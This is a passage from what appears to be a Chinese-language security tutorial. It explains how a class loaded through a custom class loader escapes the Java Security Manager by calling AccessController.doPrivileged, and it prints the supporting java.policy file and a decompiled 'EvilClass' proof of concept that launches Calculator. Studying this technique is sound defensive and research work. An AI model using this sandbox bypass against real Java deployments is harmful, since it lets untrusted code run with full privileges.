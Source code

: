 - 不过，在恶意类被加载调用的时候，它仅仅是栈中的一个栈帧，在他下面的栈帧仍然是policy文件指定的权限。

- > 但是AccessController会自顶向下遍历栈帧，如果遍历到doPrivileged，它会检查到调用doPrivileged方法的栈帧为止。只要我们在恶意类中调用doPrivileged方法，AccessController只会向下遍历检查到恶意类所在的栈帧，而恶意类对应的权限是所有权限，这样就可以绕过Java Security Manager。

- java.policy如下，这里需要读class文件，所以需要读文件权限

  ```java
  grant{
      permission java.lang.RuntimePermission "createClassLoader";
      permission java.io.FilePermission "<<ALL FILES>>", "read";
  };
  ```

- 恶意类如下：

  ```
  //
  // Source code recreated from a .class file by IntelliJ IDEA
  // (powered by FernFlower decompiler)
  //
  
  import java.security.AccessController;
  import java.security.PrivilegedAction;
  
  public class EvilClass {
      public EvilClass() {
      }
  
      static {
          AccessController.doPrivileged(new PrivilegedAction() {
              public Object run() {
                  try {
                      Process var1 = Runtime.getRuntime().exec("open -a Calculator");
                      return null;
                  } catch (Exception var2) {
                      var2.printStackTrace();
                      return null;
                  }
              }
          });
      }
  }
  ```

  ![image-20231108224918901](images/24.png)